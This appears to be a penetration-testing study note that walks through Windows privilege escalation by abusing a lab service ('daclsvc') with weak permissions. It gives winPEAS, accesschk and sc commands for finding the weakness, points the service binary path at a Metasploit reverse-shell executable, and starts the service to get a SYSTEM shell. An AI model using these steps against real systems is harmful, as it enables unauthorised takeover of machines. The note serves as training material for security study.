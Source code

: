 # Insecure Permission

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous \(e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS\). Some may be useful \(e.g. SERVICE\_STOP, SERVICE\_START\). Some are dangerous \(e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS\)

**If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.** 

Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges! unless the user you have access to can reboot the system and the service would automatically run on startup

we use winPEAS to find services with insecure permissions

![](../../../../../.gitbook/assets/image%20%2882%29.png)

![](../../../../../.gitbook/assets/image%20%2898%29.png)

Note that we can modify the “daclsvc” service.

We can confirm this with accesschk.exe:

```text
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](../../../../../.gitbook/assets/image%20%2892%29.png)

Check the current configuration of the service:

```text
sc qc daclsvc
```

![](../../../../../.gitbook/assets/image%20%2872%29.png)

demand start means the service has to started manually he binary pathname is also available the service has no dependencies and it also should run with the system user permissions

Check the current status of the service:

```text
​sc query daclsvc
```

![](../../../../../.gitbook/assets/image%20%2893%29.png)

the service is stopped

since we can change the service configs the easiest way to exploit this is to set the binary path to the location of a reverse shell payload

create a reverse shell with metasploit and place it in a directory where you have read/write permission

then Reconfigure the service to use our reverse shell executable:

```text
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

![](../../../../../.gitbook/assets/image%20%2885%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start daclsvc
```

![](../../../../../.gitbook/assets/image%20%2884%29.png)

